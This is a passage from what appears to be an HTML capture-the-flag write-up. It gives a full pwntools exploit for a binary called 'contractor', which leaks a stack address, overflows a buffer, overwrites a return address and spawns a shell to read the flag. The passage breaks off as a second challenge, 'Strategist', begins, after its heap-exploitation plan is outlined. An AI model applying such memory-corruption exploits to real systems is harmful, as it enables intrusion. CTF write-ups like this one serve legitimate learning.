             <div class="section-content">
                <h3>Exploit Development</h3>
                <h4>Step 1: Leak Binary Address</h4>
                <pre><code class="language-python">io.sendline(b"N" * 0xF)  # Fill name input
io.sendline(b"R" * 0xff)  # Overflow "reason to join" to leak stack address</code></pre>
                <h4>Step 2: Modify Specialty Pointer</h4>
                <pre><code class="language-python">payload = b"\xe8" * 24  # Overflow buffer
payload += p64(0x1)  # Padding
payload += b"\xef"  # Overwrite return address
payload += p64(contract_leak)  # Redirect execution</code></pre>
                <h4>Step 3: Trigger Execution</h4>
                <pre><code class="language-python">io.sendline(payload)
io.sendline(b"Yes")  # Confirm input</code></pre>
            </div>
            <div class="section-content">
                <div class="h4-wrapper">
        <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python">from pwn import *

while True:
    io = process("./contractor")
    io.sendline(b"N" * 0xF)  # Fill name input
    io.sendline(b"R" * 0xff)  # Overflow reason input to leak stack address
    io.sendline(b"1" * 8)  # Set age input
    io.sendline(b"S" * 0x10)  # Specialty input

    # Leak binary address from stack
    junk = io.recvuntil(b"SSSSSSSSSSSSSSSS")
    contract_leak = int.from_bytes(io.recv(6), 'little') - 2061

    io.sendline(b"4")  # Modify specialty option

    # Craft payload to overwrite specialty pointer
    payload = b"\xe8" * 24  # Overflow buffer
    payload += p64(0x1)  # Padding
    payload += b"\xef"  # Overwrite return address last byte
    payload += p64(contract_leak)  # Redirect to contract() function
    io.sendline(payload)

    io.sendline(b"Yes")  # Confirm input
    io.sendline(b"cat flag.txt")  # Get flag
    io.interactive()</code></pre>
            </div>
        </div>
    </section>
</section>


<section id="back">
<section id="blueback" class="container">
    <div id="strategist" class="challenge-section">
        <div class="section-content">
            <b>Name:</b> <span class="text"> Strategist </span><br>
            <b>Category:</b> Binary Exploitation <br>
            <b>Difficulty:</b> Medium <br>
            <p>
               <br> In this challenge, we are given a binary with heap-based vulnerabilities. The goal is to exploit an **off-by-one** vulnerability to perform **tcache poisoning**, leak a **libc address**, and ultimately gain a shell.
            </p>
        </div>
        <div class="section-content">